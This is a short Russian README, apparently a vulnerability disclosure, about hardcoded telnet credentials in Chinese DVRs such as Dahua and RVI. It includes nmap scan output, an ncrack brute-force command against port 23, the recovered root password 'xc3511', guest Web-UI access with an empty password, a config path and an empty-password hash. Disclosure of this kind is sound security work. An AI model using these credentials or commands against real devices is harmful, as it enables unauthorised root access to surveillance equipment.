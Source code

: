 <h1>Hardcoded логин\пароль от telntet в китайских DVR, таких Dahua, RVI.</h1>
[English](README.md)[Русский](README-ru.md)
<br/>Так же они могут в продаже под другими брендами.
<br/>
<br/>Nmap report выглядит любопытно:
<br/>Nmap scan report for 192.168.100.15
<br/>Host is up (0.0050s latency).
<br/>Not shown: 65527 closed ports
<br/>
<br/>PORT      STATE    SERVICE        VERSION
<br/>
<br/>23/tcp    open     telnet         BusyBox telnetd
<br/>81/tcp    open     http           uc-httpd 1.0.0 #Web-ui, You can get guest access with guest\<empty> credentials
<br/>445/tcp   filtered microsoft-ds
<br/>4090/tcp  open     ssl/omasgport?
<br/>9527/tcp  open     unknown
<br/>9528/tcp  open     unknown
<br/>34567/tcp open     dhanalakshmi? #This port using for remote veiw in CMS
<br/>34599/tcp open     unknown
<br/>
<br/>Device type: WAP
<br/>Running: Linux 2.4.X
<br/>OS CPE: cpe:/o:linux:linux_kernel:2.4.36
<br/>OS details: DD-WRT v24-sp1 (Linux 2.4.36)
<br/>Network Distance: 5 hops
<br/>Service Info: Host: LocalHost
<br/>
<br/>С помощью ncrack я "восстановил" учетные данные для telnet.
<br/>
<br/>ncrack 192.168.100.15:23 -U logins.txt -P passwords.txt
<br/>Starting Ncrack 0.6 ( http://ncrack.org ) at 2018-05-26 13:06
<br/>Discovered credentials for telnet on 192.168.100.15 23/tcp:
<br/>192.168.100.15:23 23/tcp telnet: 'root' 'xc3511'
<br/>Ncrack done: 1 service scanned in 27.06 seconds.
<br/>Ncrack finished.
<br/>
<br/>Конфигурационные файлы Web-ui хранятся в /mnt/mtd/Config/, но я не разобрался с хэшированым паролем в файле Account1.
<br/>Так же, в моем случае был крайне обрезаный BusyBox и не было возможности использовать sed за замены значения в строке. Хэш пустого пароля - tlJwpbo6.
<br/>
<br/>